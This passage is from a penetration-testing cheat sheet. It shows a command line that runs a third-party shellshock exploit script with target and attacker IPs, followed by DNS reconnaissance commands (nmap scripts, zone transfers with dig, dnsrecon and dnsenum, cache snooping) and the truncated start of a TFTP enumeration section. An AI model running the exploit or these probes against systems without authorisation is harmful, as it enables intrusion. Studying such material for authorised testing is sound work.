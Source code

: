     # Reference: https://gist.github.com/YSSVirus/0978adadbb8827b53065575bb8fbcb25
    python2 shellshock.py <target_ip> <username>@<domain> <attacker_ip> 139 <root>@<domain>
    
    # Example: python2 shellshock.py 192.168.1.100 emmanuel@domain.local 192.168.1.50 139 admin@domain.local
    

#### 1.4.5 53: DNS

**Nmap Scripting Scan**

    nmap --script dns-brute,dns-nsid,dns-recursion,dns-zone-transfer -p 53 <target_ip>
    

**Enumerating AD Domain via DNS**

    nmap -p 53 --script "dns-nsid,dns-srv-enum" <target_ip>
    

**Basic DNS Enumeration**

    dig axfr <domain_name> @<dns_server_ip>  # Attempt zone transfer
    dig ANY <domain_name> @<dns_server_ip>  # Retrieve all records
    nslookup
    > server <dns_server_ip>
    > set type=any
    > <domain_name>  # Query any records
    

**Zone Transfer**

    dnsrecon -d <domain_name> -n <dns_server_ip> -t axfr
    
    dnsenum --enum -f /usr/share/dnsenum/dns.txt --dnsserver <dns_server_ip> <domain_name>
    

**Reverse Lookup**

    nmap -sL <target_ip_range> | grep "Nmap scan report"  # Reverse DNS lookup for a range
    

**DNS Cache Snooping**

    dig @<dns_server_ip> -t A +norecurse <target_domain>
    

**Enumerate DNS with PowerShell (Windows)**

    Resolve-DnsName -Name <domain_name> -Server <dns_server_ip> -DnsOnly
    

#### 1.4.6 69: TFTP

**Nmap Scripting Scan**

    nmap -p 69 --script tftp-enum <target_ip>
    

**Enumeration Script**
